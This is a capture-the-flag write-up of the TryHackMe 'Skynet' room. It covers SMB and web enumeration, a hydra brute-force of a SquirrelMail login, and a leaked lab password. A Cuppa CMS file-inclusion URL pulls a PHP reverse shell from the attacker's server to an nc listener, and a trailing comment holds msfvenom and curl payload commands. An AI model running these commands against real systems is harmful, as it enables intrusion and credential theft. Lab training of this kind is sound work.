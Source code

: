 ## Try Hack Me - Skynet

![skynet](skynet.jpeg)

## Information
### Room URL
https://tryhackme.com/r/room/skynet

### Target Machine IP
10.10.13.82

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.4.73.48

## Task 1 - Deploy and compromise the vulnerable machine!

nmap -p- --min-rate 5000 -sV 10.10.13.82

Result:

![nmapresult](screenshots/nmapresult.png)

There is an SMB server running! The following command should give what version it is running

nmap -sC -p 139,445 -sV 10.10.13.82

![nmapsmb](screenshots/nmapsmb.png)

It does! Samba 4.3.11-Ubuntu

To get more info:

smbmap -H 10.10.13.82

![smbmapinfo](screenshots/smbmapinfo.png)

Using this info, it is possible to connect to the "anonymous" disk without permission:

<p>
smbclient \\\\10.10.13.82\\anonymous
</p>

![smbanonymous](screenshots/smbanonymous.png)

Upon listing the directories (dir), there is a file "attention.txt" that has certainly got my attention

![smbattention](screenshots/smbattention.png)

get attention.txt

![attentiontxt](screenshots/attentiontxt.png)

Further inspection of the logs folder reveals 3 log files

![smblogs](screenshots/smblogs.png)

The command "get < file >" will download the specified file. I did this for all three log files. "log2" and "log3" were empty, but "log1" was of interest:

![log1](screenshots/log1.png)

enum4linux tool might be able to give some more information about the server:

enum4linux 10.10.13.82

From the scan we can see a user login, milesdyson

![enum4linuxusers](screenshots/smb4linuxusers.png)

Another way to get the user info is with "nmap -script=smb-enum-users 10.10.13.82"

It seems that is all we can do with the smb server for now. 

Recall earlier that nmap found a http service running on port 80. Use gobuster to enumerate possible directories on the web server:

gobuster dir -u http://10.10.13.82 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

![gobusterresult](screenshots/gobusterresult.png)

Visiting "http://10.10.13.82/squirrelmail" presents us with a login page. Use hydra to crack the login using the information we have but first we need to find out how the request is constructed.

![burpintercept](screenshots/burpsuiteproxyintercept.png)

After a few tweaks to the command run it to get the password:

hydra -l milesdyson -P /home/incorgnito/Downloads/log1.txt 10.10.13.82 http-post-form "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user"

![hydrapassword](screenshots/hydrapassword.png)

Enter the password into the website, and we have access!

![webmailhome](screenshots/webmailhome.png)

The first email titled "Samba password reset" looks interesting

![sambaemail](screenshots/sambaemail.png)

Lets try the password on the samba server

smbclient -U milesdyson \\\\10.10.13.82\\milesdyson

)s{A&2Z=F^n_E.B`

![smbmiles](screenshots/smbmiles.png)

It works!

In the "notes" directory is "important.txt"

![smbnotes](screenshots/smbnotes.png)

The file reads:

![importanttxt](screenshots/importanttxt.png)

gobuster dir -u http://10.10.13.82/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

Further enumerating the web service using this new directory reveals an admin page

![gobusteradministrator](screenshots/gobusteradministrator.png)

Viewing it in the browser, we can see it is the mentioned CMS

![cms](screenshots/cms.png)

As there is no attack vector for the login, searching Cuppa CMS vulnerabilities lead to https://www.exploit-db.com/exploits/25971

With this knowledge, prepare a php reverse shell. I am going to run it on port 8888

Once the shell is ready, start a python server to transfer the shell

python -m http.server

![pyserver](screenshots/pyserver.png)

Also start a nc listener to catch the shell

nc -lnvp 8888

![nclistener](screenshots/nclistener.png)

When ready access the exploit URL. This will get the shell from the py server and run it.

http://10.10.13.82/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.73.48:8000/shell.php

The website will hang which is ok because that means the exploit succeded

![pyupload](screenshots/pyfileuploaded.png)

![shell](screenshots/shell.png)

Running whoami, we can see the account the process is running on

![whoami](screenshots/whoami.png)

(At this point my machine timed out so from here the new target IP is 10.10.70.49)

After some looking around, the user flag is found

![userflag](screenshots/userflag.png)

Doing some more investigation of the running cronjobs, there is a backup running every minute

![cronjobs](screenshots/cronjobs.png)

<!-- msfvenom -p cmd/unix/reverse_bash LHOST=10.4.73.48 LPORT=9999 -f raw > revshell.sh

curl --upload-file backup.sh http://10.4.73.48:8000/backup.sh

curl http://10.4.73.48:8000/backup.sh

curl -o backup.sh http://10.4.73.48:8000/revshell.sh -->